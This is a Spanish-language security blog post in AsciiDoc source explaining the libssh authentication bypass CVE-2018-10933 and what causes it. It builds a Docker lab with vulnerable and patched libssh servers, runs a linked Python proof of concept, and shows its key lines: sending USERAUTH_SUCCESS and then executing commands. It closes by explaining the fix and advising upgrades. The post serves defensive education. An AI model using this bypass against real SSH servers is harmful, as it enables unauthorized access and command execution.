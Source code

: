 :slug: vulnerabilidad-libssh/
:date: 2018-10-18
:category: ataques
:subtitle: Nueva vulnerabilidad en libssh CVE-2018-10933
:tags: seguridad, bug, libssh, pentesting
:image: yodameme.png
:alt: Cara graciosa de Yoda
:description: Libssh es una librería que sirve para implementar el protocolo SSHv2 en el lado del servidor y del cliente. Recientemente un analista de seguridad descubrió una vulnerabilidad que le permite a un atacante remoto saltar la autenticación. Aquí explicaremos esta vulnerabilidad.
:keywords: Libssh, Seguridad, CVE, Vulnerabilidad, Pentesting, PoC.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:translate: libssh-bypass-cve/

= Nueva vulnerabilidad LibSSH

La nueva vulnerabilidad en +LibSSH+, reportada como
link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
reside en el código del servidor
el cual permite a un cliente saltarse el proceso de autenticación
y crear canales sin permiso,
lo cual afecta a los servidores que utilizan versiones +6.0+ y superiores
que son usados en modo servidor

El +bug+ fue descubierto por Peter Winter Smith del grupo +NCC+,
es como un truco +jedi+ :

* Usuario: +Déjame entrar+
* Servidor: NO
* Usuario: +Estoy autenticado, déjame entrar+
* Servidor: DE ACUERDO, ESTÁS DENTRO

¿Por qué pasa ésto?
Esto ocurre debido a que +LibSSH+ revisa la autenticación
cuando recibe el mensaje +SSH2_MSG_USERAUTH_SUCCESS+,
en lugar de +SSH2_MSG_USERAUTH_REQUEST+,
actuando como si el usuario ya estuviera autenticado
permitiéndole a un atacante saltarse la autenticación
y ejecutar comandos en el servidor.

== Construyendo el ambiente

¿Cómo funciona +LibSSH+?
Es una librería en +C+ para implementar el protocolo +SSHv2+
del lado del cliente y el servidor,
así que el primer paso es escribir nuestro código del lado del servidor,
vamos a utilizar la plantilla que tiene +LibSSH+ (+samplesshd-cb.c+)
y modificarla para nuestros propósitos.

En +ssh_channel_callbacks_struct+
vamos a agregar la siguiente línea
para tener la funcionalidad +exec+:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

image::channel-exec.png[channel-exec]

A continuación, agregaremos la función +exec_request+,
ésta tomara nuestros comandos y los ejecutará en el servidor:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

Si tienes +LibSSH+ con versión +0.7.4+
puedes simplemente guardarla, compilarla y ejecutarla,
de no ser el caso, puedes utilizar otro método.
Vamos a utilizar un contenedor +docker+
e instalaremos ambas versiones:
una vulnerable y una corregida,
luego pasaremos nuestro código al servidor y lo ejecutaremos.
Los archivos de ejemplo pueden ser descargados [button]#link:cve201810933.zip[aquí]#

Para construir el contenedor,
abre un terminal en la carpeta que contiene el +Dockerfile+
y ejecuta el siguiente comando:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

Esto descargará los archivos necesarios
y compilará todos los recursos de +LibSSH+.

Luego, para abrir el contenedor
simplemente ejecuta este comando:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

Esto reflejara nuestro puerto +2222+ en el puerto +2222+ del contenedor
para poder ejecutar nuestras pruebas,
también abrirá un terminal +bash+ en la máquina del contenedor.
Aquí ejecutaremos nuestro servidor +LibSSH+.

== Explotando la vulnerabilidad

En este caso utilizaremos +LibSSH v0.7.4+
y probaremos la solución con +LibSSH v0.7.6+.
La prueba de concepto (+PoC+) se encuentra en +Python version 2+
y puedes revisar el código fuente
link:https://www.openwall.com/lists/oss-security/2018/10/17/5[aquí],
pero si descargaste nuestros archivos
se encuentra allí como +exploit.py+

Para ejecutar esta +PoC+
necesitarás +paramiko+,
el cual puedes instalar al ejecutar:

[source,bash]
----
host$ pip install paramiko
----

Dentro del contenedor, ejecuta el siguiente comando
para iniciar el servidor +LibSSH+ vulnerable:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

Utilizamos el  +flag+ +verbose+ para observar
lo que está enviando y recibiendo nuestro servidor

Luego, en tu máquina ejecuta el +exploit+ con:

[source,bash]
----
host$ python exploit.py
----

Si revisas tu contenedor
podrás ver esto:

image::ssh-bypass.png[ssh-bypass]

Cuando el servidor espera un mensaje +SSH2_MSG_USERAUTH_REQUEST+
enviamos un +SSH2_MSG_USERAUTH_SUCCESS+

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----
El servidor acepta el mensaje,
con lo cual nos hemos saltado la autenticación.
Ahora podemos enviar nuestros comandos al servidor con:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

image::command-exec.png[command-exec]

== La solución

image::dont-work.png[dont-work]

La versión +0.7.6+ de +LibSSH+ no tiene esta vulnerabilidad
y podemos verificarlo.
En nuestro contenedor, solo necesitamos ejecutar:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

Y en nuestra máquina, ejecutar el exploit nuevamente:

[source,bash]
----
host$ python exploit.py
----

image::no-vulnerable.png[no-vulnerable]

¿Qué está pasando?

Enviamos el mensaje +SSH2_MSG_USERAUTH_SUCCESS+
y el servidor lo recibe,
pero no nos autentica
debido a que ahora han agregado una validación a su código,
cuando el paquete es +SSH2_MSG_USERAUTH_SUCCESS+
luego verifica el estado de la autenticación
y si no es uno de los estados válidos
rechaza el paquete.

.Código en src/packet.c
image::solution.png[solution]

Aquí puedes ver la diferencia en las respuestas
entre una versión vulnerable y una que no lo es:

.Vulnerable
image::vulnerable.png[vulnerable]

.No vulnerable
image::no-vulnerable.png[no-vulnerable2]

Si tienes +LibSSH+ en tu servidor
y estás utilizando un componente de servidor
deberías instalar la versión actualizada
o las versiones corregidas de +LibSSH+.
